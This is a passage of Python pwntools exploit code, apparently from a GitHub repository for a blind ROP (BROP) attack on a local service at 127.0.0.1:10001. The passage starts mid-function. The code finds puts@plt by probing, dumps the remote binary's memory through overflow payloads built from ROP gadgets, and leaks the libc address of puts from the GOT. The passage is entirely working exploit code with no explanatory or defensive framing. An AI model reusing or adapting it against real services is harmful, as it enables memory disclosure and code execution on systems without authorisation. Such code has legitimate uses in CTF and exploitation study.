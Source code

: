 ```python
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            if p.recv().startswith("\x7fELF"):
                log.info("puts@plt address: 0x%x" % addr)
                p.close()
                return addr
            log.info("bad: 0x%x" % addr)
            p.close()
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1

def dump_memory(buf_size, stop_addr, gadgets_addr, puts_plt, start_addr, end_addr):
    pop_rdi  = gadgets_addr + 9     # pop rdi; ret

    result = ""
    while start_addr < end_addr:
        #print result.encode('hex')
        sleep(0.1)
        payload  = "A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(start_addr)
        payload += p64(puts_plt)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            data = p.recv(timeout=0.1)      # timeout makes sure to recive all bytes
            if data == "\n":
                data = "\x00"
            elif data[-1] == "\n":
                data = data[:-1]
            log.info("leaking: 0x%x --> %s" % (start_addr,(data or '').encode('hex')))
            result += data
            start_addr += len(data)
            p.close()
        except:
            log.info("Can't connect")
    return result

def get_puts_addr(buf_size, stop_addr, gadgets_addr, puts_plt, puts_got):
    pop_rdi  = gadgets_addr + 9

    payload  = "A"*buf_size
    payload += p64(pop_rdi)
    payload += p64(puts_got)
    payload += p64(puts_plt)
    payload += p64(stop_addr)

    p = remote('127.0.0.1', 10001)
    p.recvline()
    p.sendline(payload)
    data = p.recvline()
    data = u64(data[:-1] + '\x00\x00')
    log.info("puts address: 0x%x" % data)
    p.close()

    return data
```